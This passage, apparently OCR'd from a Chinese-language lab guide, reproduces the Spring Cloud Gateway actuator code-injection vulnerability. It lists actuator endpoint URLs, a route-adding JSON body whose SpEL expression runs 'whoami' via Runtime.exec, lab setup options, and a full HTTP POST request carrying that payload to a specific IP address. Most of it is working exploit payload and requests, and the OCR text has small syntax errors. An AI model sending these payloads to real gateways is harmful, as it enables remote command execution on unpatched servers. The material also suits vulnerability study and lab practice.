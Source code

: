```
http://192.168.70.13:9000/actuator/gateway/globalfilters

http://192.168.70.13:9000/actuator/gateway/routefilters

http://192.168.70.13:9000/actuator/gateway/routes
http://192.168.70.13:9000/actuator/gateway/routes/test
```



#### 添加路由 POST Body

```
{
  "id": "wuyaaq",
  "filters": [
    {
      "name": "AddResponseHeader",
      "args": {
        "name": "Result",
        "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[{\"whoami\"}).getInputStream()))}"
      }
    }
  ],
  "uri": "http://example.com"
}
```

# 2、漏洞复现

## 1、启动Spring Cloud Gateway服务*

1. 1、本地工程 
2. 2、vulhub - docker compose启动 
3. 3、vulfocus.io注册账号 
4. 4、马士兵教育（八方网域）自研靶场

## 2、添加过滤器（POST） 

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 47.120.13.249:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "wuyaaq",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
```
